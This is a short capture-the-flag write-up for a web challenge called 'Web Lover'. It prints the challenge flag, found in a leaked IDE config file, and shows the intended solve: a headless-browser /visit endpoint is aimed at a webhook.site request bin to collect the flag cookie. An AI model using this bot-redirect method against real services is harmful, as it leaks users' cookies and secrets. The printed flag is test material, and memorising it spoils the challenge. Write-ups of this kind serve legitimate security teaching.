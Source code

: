 # Web Lover

Greetings, fellow seekers of the deep seas and web wonders! 🌊🦈 BLAHAJ is here to guide you through a web challenge!

## Unintended aquatic adventure 🐟

Our shark squad embarked on a mission to conquer this challenge right from the get-go. Alas, the Docker containers played hard to get, forcing us to embark on an epic journey through the source code. Lo and behold, we stumbled upon a hidden treasure within the `.idea` folder—the mysterious `workspace.xml` file.

Swimming through the XML depths, we uncovered a fascinating revelation:

```xml
<envs>
    <env name="flag" value="blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}" />
</envs>
```

What a fin-tastic find! It appeared to be a flag, and without a second thought, we submitted it. To our delight, it was the key to unlocking this underwater mystery!

## Intended solve: Chrome Chronicles 🌐

Venturing further, we stumbled upon a curious code snippet:

```py
Copy code
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

Armed with the sacred URL `http://188.166.197.31:30016/visit?site=https%3A%2F%2Fwebhook.site%2Fe1208e41-fcf7-4a4f-b331-ff4da56265bf`, victory was ours!

![Screenshot of request bin](./blahajctf-2023/hi.png)

May your web adventures be as fruitful as a bountiful sea harvest! 🌐🦑
